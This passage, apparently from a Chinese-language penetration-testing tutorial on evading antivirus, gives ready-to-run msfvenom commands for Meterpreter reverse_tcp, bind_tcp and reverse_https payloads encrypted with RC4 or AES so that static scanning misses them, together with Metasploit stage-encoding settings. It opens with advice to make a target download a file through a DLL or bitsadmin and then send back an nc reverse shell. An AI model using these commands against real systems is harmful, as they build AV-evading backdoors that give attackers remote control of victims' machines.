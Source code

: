 生成一个让目标机下载文件的dll，也可以用bitsadmin。然后上控或者传nc之类的反弹shell回来



### 3.2 加密

（加密是一种能够有效反击反病毒软件静态扫描功能的方法，因为AV引擎不能立刻爆破它。目前，这有一些msfvenom支持的加密算法保护你的shellcode:AES256-CBC,RC4,Base64,和XOR。）

①. reverse_tcp_rc4

```bash
./msfvenom -p windows/meterpreter/reverse_tcp_rc4 lhost=外网ip lport=5555 RC4PASSWORD=Wh0ale -f exe >/tmp/rc5.exe    
```

②. encrypt-key

```bash
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=外网ip LPORT=5555 --encrypt rc4 --encrypt-key Wh0ale -f exe > /tmp/rc6.exe   
```

③. bind_tcp

```bash
./msfvenom -p windows/meterpreter/bind_tcp LHOST=外网ip LPORT=443 --encrypt rc4 --encrypt-key Wh0ale -f exe > /tmp/rc1.exe  
```

④. --encrypt-iv

```
./msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-外网ip LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f exe -o /tmp/meterpreter.exe  
```

### 3.3 HTTPS

①

```
msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443 -f c

metasploit设置：

set EnableStageEncoding true

set stageencoder x86/fnstenv_mov

set stageencodingfallback false
```

②

```bash
msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c
```
